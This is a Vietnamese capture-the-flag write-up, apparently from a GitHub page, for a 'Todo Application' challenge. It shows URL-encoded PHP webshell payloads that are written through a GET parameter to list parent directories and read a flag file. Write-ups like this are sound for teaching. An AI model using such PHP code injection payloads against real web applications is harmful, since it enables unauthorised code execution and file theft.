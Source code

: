 # Todo Application

## Bài này cho chúng ta source code

![alt text](image.png)

## Ta thử một payload bất kì và quan sát url 

![alt text](image-1.png)

## Phân tích source code kết hợp với url sau khi tải lên pay load ta thấy rằng khi phương thức $_GET cho ta tải pay load lên với key là add và nội dung file sẽ được ghi vào biến $fileTodo

![alt text](image-2.png)

## Phương thức $_GET với key là fileTodo cho phép hiển thị lên front end nội dung của biến $todo

![alt text](image-3.png)

## Mình thử một webshell đơn giản là:
```
<?php
phpinfo();
?>
```
## Tất nhiên là phải decode.
## Sau khi decode đoạn code sẽ là:
```
%3C%3Fphp%0Aphpinfo%28%29%3B%0A%3F%3E
```
## fileTodo ta sẽ đặt bất kì
## Từ kết quả trả về ta thấy được rằng ta có thể tải nội dung webshell bằng php
## Mình thử tải đoạn code này lên và lấy được các thư mục trong *../../../*
```
%3C%3Fphp%0A%24dir%20%3D%20%22..%2F..%2F..%2F%22%3B%0A%24a%20%3D%20scandir%28%24dir%29%3B%0Aprint_r%28%24a%29%3B%0A%3F%3E%0A
```
## Đoạn code trên tương ứng với:
```
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```
## sửa lại đoạn code trên để đọc flag:
```
<?php
$b =file_get_contents("../../../flagRqUGM.txt");
print_r($b);
?>
```
## và ta đã lấy được flag:

*Flag: CHH{PHP_COdE_iNjECtioN_0bfa984f6e65e02301f8999b669a9cd9}*